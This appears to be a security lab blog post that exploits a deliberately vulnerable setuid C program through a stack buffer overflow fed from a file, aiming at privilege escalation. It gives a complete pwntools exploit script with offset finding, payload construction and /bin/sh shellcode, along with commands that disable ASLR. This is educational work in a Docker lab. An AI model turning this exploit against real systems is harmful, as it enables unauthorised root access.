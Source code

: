 ```yaml
---
layout: post
title: File-Based Shellcode
category: system_security
author: 'reo'
tags: python seclab docker c privilege_escalation
mathjax: 
---
```


This last of a series of buffer overflow attacks will be from a file as opposed to from standard input.
The goal is privelege escalation using a vulnerable binary with the setuid flag enabled.

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## Setup

***

The vulnerable program is

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define FILE_SIZE 1000
#define LINE_SIZE 12
#define on_error(...) { fprintf(stderr, __VA_ARGS__); fflush(stderr); exit(1); }

void echo(char *arg){
    char input[LINE_SIZE];
    strcpy(input, arg);
    printf("Echo response: %s\n", input);
}

int main(int argc, char **argv){
    if (argc < 2) on_error("Usage: %s [argument]\n", argv[0]);
    char text[FILE_SIZE];
    printf("start of file buffer: %p\n",(void*)&text[0]);
    FILE *file;
    file = fopen(argv[1], "r");
    fread(text, sizeof(char), FILE_SIZE, file);
    fclose(file);
    text[strlen(text)-1] = 0;
    char *line = strtok(strdup(text), "\n");
    while(line) {
       echo(line);
       line  = strtok(NULL, "\n");
    }
    return 0;
}
```


Like our previous similar labs,
ASLR and dmesg restrict are disabled

```
$ docker run --rm -v $(pwd):/shared --privileged -it thierrysans/vulnerable:stack-smashing-shellcode bash
# echo 0 > /proc/sys/kernel/randomize_va_space
# echo 0 > /proc/sys/kernel/dmesg_restrict
```

<br>

***

## The Exploit

***

We can now compile the executable and disassemble it

```
/shared# gcc vuln.c -o vuln -fno-stack-protector -m32 -z execstack
/shared# objdump -d -M intel vuln > dump.dmp
```

We use pwntools like our previous related exercises.

```python
from pwn import *
from shellcode import get_shellcode

pwnlib.term.term_mode= False

''' returns the payload for the attack
    given the path to the vulnerable binary
    and the shellcode from get_shellcode in shellcode.py
    (string, bytes) -> bytes
'''
def craft_payload(path_to_vuln_prgm, shellcode):
    de_brujin = cyclic(30)
    with open('debruijn.txt', 'w') as craft_file:
        craft_file.write(de_brujin.decode())
    p = process([path_to_vuln_prgm, 'debruijn.txt'])
    p.wait_for_close()
    debug_msg = process('dmesg | grep "vuln" | tail -n 1', stdout=subprocess.PIPE,
            shell=True).recvall()

    eip = int(re.search(b'ip\ (.*)\ sp', debug_msg).group(1), 16)
    esp = int(re.search(b'sp\ (.*)\ error', debug_msg).group(1), 16)
    overflow_len = cyclic_find(p32(eip))
```

Now, from the disassembly, we pick up some useful information:

- line buffer in memory is 20 bytes long
- file buffer in memory is 1016 bytes long

There are a few important assumptions being made here:

1. the padding which follows the return address is 16 bytes long
2. the file buffer immediately follows that of the line buffer

The values which must be found are:

1. overflow_len = length until you reach the address portion following the buffer
2. esp = stack pointer after overwriting address

with this info, we know given padding between is 16 bytes, addresses are 4 bytes, and the newline adds one.
This is how we get
`sploit_addr = esp + overflow_len + 4 + 1`
and
`payload = b'a'*overflow_len + p32(sploit_addr) + b'\n' + shellcode + b'\n'`

```python
    sploit_addr = esp + overflow_len + 4 + 1
    print("overflow_len, sploit_addr")
    print(overflow_len)
    print(sploit_addr)
    payload = b'a'*overflow_len + p32(sploit_addr) + b'\n' + shellcode + b'\n'

    return payload
```

The driver now simply needs to write the payload to a file and execute the vulnerable program

```python
def run(path_to_vuln_prgm):
    interactive, shellcode = get_shellcode()
    payload = craft_payload(path_to_vuln_prgm, shellcode)
    filename = '/home/mallory/payload.txt'
    open(filename, 'wb').write(payload)
    p = process([path_to_vuln_prgm, filename])
    p.interactive()
```

Our shellcode file is the same as usual.

```python
from pwn import *

def get_shellcode():
      return asm(shellcraft.i386.linux.sh())
```

<br>

***

## Cleanup

***

When cleaning up,
make sure that the security features on your machine have not been altered:

```
$ echo 2 > /proc/sys/kernel/randomize_va_space
$ echo 1 > /proc/sys/kernel/dmesg_restrict
```

also don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

Inspired by [this blog post](https://dhavalkapil.com/blogs/Shellcode-Injection/)

